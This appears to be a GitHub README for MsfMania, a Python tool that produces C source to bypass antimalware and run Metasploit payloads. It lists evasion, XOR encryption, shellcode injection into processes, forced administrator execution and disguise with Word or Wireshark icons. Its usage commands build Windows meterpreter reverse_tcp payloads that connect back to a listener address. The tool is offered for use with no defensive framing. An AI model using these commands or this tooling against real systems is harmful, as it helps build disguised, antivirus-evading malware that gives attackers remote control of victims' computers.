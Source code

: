 # MsfMania

MsfMania is a command line tool developed in Python, allowing to automatically produce a source code in C language that will be used to bypass antimalware before executing a metasploit payload.

## Version 2.2
New features:
```
1- Code fully reviewed and redrafted
2- Perfomance increase
3- Simple encryption by XOR operation based on key size
4- You can force the user to run the program as an administrator with the argument "--admin".
5- The addition of a function allowing sandbox/antivirus evasion is now optional, with the argument "--evasion".
6- Massive bug fix
```

## Requirements
- Latest version of Kali Linux
- The kali-rolling repository
- Python3

## Installation
- Git clone this repository: ```git clone https://github.com/G1ft3dC0d3/MsfMania.git```
- cd into the MsfMania folder: ```cd MsfMania```
- HAVE FUN

## Usage
```
python3 MsfMania.py -h
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Malware local --evasion --admin
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Virus remote --procname Wireshark.exe --mscript --icon mco.ico
```
```
python3 MsfMania.py stageless x64 windows/x64/meterpreter_reverse_tcp 192.168.254.129 4444 Word remote --decoy 2000 --mscript --icon word.ico
```

## Features
- Polymorphic C source code.
- x86/x64 staged/stageless windows payload meterpreter/shell.
- Local/Remote Thread Shellcode Injection
- Sandbox/Antivirus Evasion
- Run as Administrator
- Executable customizable with an icon.
- Cross-compiler MinGW.
- Strip executable.
- Rar compression.
- Autorun Metasploit config
